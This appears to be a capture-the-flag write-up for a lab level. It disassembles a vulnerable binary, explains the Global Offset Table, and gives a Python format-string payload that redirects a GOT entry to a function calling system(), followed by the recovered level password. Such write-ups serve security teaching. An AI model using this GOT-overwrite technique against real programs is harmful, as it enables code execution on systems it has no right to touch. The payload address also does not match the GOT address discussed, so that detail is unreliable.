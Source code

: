 # Level 5

after switch to the new level we found an exectubale file _level5_ we use gdb to disass.

```c
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   ebp
   0x08048505 <+1>:     mov    ebp,esp
   0x08048507 <+3>:     and    esp,0xfffffff0
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```c
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   ebp
   0x080484c3 <+1>:     mov    ebp,esp
   0x080484c5 <+3>:     sub    esp,0x218
   0x080484cb <+9>:     mov    eax,ds:0x8049848
   0x080484d0 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:    lea    eax,[ebp-0x208]
   0x080484e2 <+32>:    mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    eax,[ebp-0x208]
   0x080484f0 <+46>:    mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```

```c
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   ebp
   0x080484a5 <+1>:     mov    ebp,esp
   0x080484a7 <+3>:     sub    esp,0x18
   0x080484aa <+6>:     mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```

we disass func in <+25>

```c
(gdb) disass 0x8048390
Dump of assembler code for function _exit@plt:
   0x08048390 <+0>:     jmp    *0x8049828
   0x08048396 <+6>:     push   $0x8
   0x0804839b <+11>:    jmp    0x8048370
End of assembler dump.
```

we notice in the exit function they jmp to \*0x8049828

```
(gdb) x/x 0x8049828
0x8049828 <_exit@got.plt>:      0x08048396
(gdb)
```

The Global Offset Table (GOT) is a data structure used in position-independent code (PIC) to provide a mechanism for resolving function calls and global variable references at runtime. The GOT is typically located in the data segment of a program and contains the memory addresses of all functions and global variables that are used in the program

```
(gdb) info func
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
-->  0x08048390  _exit
0x08048390  _exit@plt
```

so we change this address 0x8049828 to not let the program redirect to the exit func and redirect it to the func o().

```c
 python -c 'print("\x08\x04\x98\x38"[::-1] + "%x " * 2 + "%134513811x" + "%n")' > a
```

```c
cat .pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
